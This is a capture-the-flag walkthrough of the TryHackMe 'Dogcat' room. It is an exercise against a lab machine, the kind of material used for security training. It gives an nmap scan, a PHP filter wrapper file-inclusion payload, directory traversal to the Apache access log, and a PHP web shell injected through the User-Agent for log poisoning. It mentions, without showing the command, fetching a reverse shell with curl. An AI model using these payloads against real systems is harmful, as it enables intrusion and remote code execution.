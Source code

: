# Dogcat 

[Link to room](https://tryhackme.com/room/dogcat)

## Enumeration

```nmap
# Nmap 7.80 scan initiated Sun Jun 28 04:10:22 2020 as: nmap -sC -sV -oN nmap.txt 10.10.129.248
Nmap scan report for 10.10.129.248
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 04:11:27 2020 -- 1 IP address (1 host up) scanned in 65.09 seconds
```

## Web Exploitation

After a little research i find out a way to bypass the php filter [check out this site](https://www.php.net/manual/en/wrappers.php.php)

Now lets read the index page, http://dogcat.thm/?view=php://filter/read=convert.base64-encode/resource=./dog/../index

![dogcat-1](https://github.com/strange07/tryhackme/blob/master/Dogcat/1.png)
but this is a base-64 encoded lets decode it
![dogcat-2](https://github.com/strange07/tryhackme/blob/master/Dogcat/2.png)
lets see whats in the index page 
![dogcat-3](https://github.com/strange07/tryhackme/blob/master/Dogcat/3.png)
The site checks if the “ext” parameter was provided, and if not it adds “.php” by default to our filename

1. What is flag 1?

http://dogcat.thm/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag
![dogcat-4](https://github.com/strange07/tryhackme/blob/master/Dogcat/4.png)
![dogcat-5](https://github.com/strange07/tryhackme/blob/master/Dogcat/5.png)
2. What is flag 2?

According to our nmap scan the server runs on Apache so let’s try to get code execution with log poisoning

The access log path for Apache is “/var/log/apache2/access.log”
lets try to read logs `/?view=./dog/../../../../../../../var/log/apache2/access.log&ext`

![dogcat-6](https://github.com/strange07/tryhackme/blob/master/Dogcat/6.png)
you can check page to source to better understand the logs
We can see that next to the route there is the User-Agent parameter

***lets insert a small php script for code excution***
i use `user agent switcher addon` to put the php code `<?php system($_GET['cmd']);?>`

![dogcat-7](https://github.com/strange07/tryhackme/blob/master/Dogcat/7.png)

Now lets check if that works `view-source:http://dogcat.thm/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami`

![dogcat-8](https://github.com/strange07/tryhackme/blob/master/Dogcat/8.png)

I tried getting a reverse shell by executing a command but that doesn't works so i use curl to download a script from my local computer and executed it from webpage to get the reverse shell.So lets try it

First we will run a python server and then we will use curl command to output the shell into shell.php on the server 

![dogcat-9](https://github.com/strange07/tryhackme/blob/master/Dogcat/9.png)
![dogcat-10](https://github.com/strange07/tryhackme/blob/master/Dogcat/10.png)
Now lets execute the shell.php by simply navigating to it
![dogcat-11](https://github.com/strange07/tryhackme/blob/master/Dogcat/11.png)
![dogcat-12](https://github.com/strange07/tryhackme/blob/master/Dogcat/12.png)

## Privilege Escalation

![dogcat-13](https://github.com/strange07/tryhackme/blob/master/Dogcat/13.png)

2. What is flag 2?

![dogcat-14](https://github.com/strange07/tryhackme/blob/master/Dogcat/14.png)

3. What is flag 3?

![dogcat-15](https://github.com/strange07/tryhackme/blob/master/Dogcat/15.png)

## Escaping Docker

![dogcat-16](https://github.com/strange07/tryhackme/blob/master/Dogcat/16.png)

4. What is Flag 4?

![dogcat-17](https://github.com/strange07/tryhackme/blob/master/Dogcat/17.png)
